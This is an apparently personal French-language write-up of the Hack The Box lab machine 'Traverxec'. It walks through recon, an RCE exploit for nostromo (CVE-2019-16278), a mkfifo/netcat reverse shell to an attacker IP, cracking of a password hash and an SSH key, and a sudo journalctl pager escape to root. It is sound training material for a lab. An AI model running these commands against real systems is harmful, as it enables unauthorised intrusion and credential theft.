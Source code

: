 # Infos

Level : easy
OS : Linux
IP : 10.129.24.71
Hostname: traverxec

# Reconnaissance

## Nmap TCP base



```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

## Nmap UDP

```

```

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![[Hack The Box/traverxec/img/80-site.png]]

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![[80-form-disabled.png]]

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![[80-rce.png]]

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![[shell-www-data.png]]

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, on peut voir un kernel un peut vieux

`OS: Linux version 4.19.0-6-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20)`

Variables d'env

![[www-data-peas-env.png]]

Crontab

`-rw-r--r-- 1 root root    1042 Jun 23  2019 /etc/crontab`

.htpasswd

![[www-data-peas-htpasswd.png]]

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![[lat-crack-hash.png]]

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![[lat-conf-nostromo.png]]

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![[lat-david-tgz.png]]

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![[tmp-backup-ssh.png]]

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![[lat-david_idrsa_crypt.png]]

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![[lat-david-idrsa_hash.png]]

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![[lat-david-idrsa_crack.png]]

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![[Hack The Box/traverxec/img/userflag.png]]

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![[pe-server-stats.png]]

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![[pe-suid-error.png]]

Alors qu'avec deux terminaux, ça fonctionne :D

![[rootflag.png]]


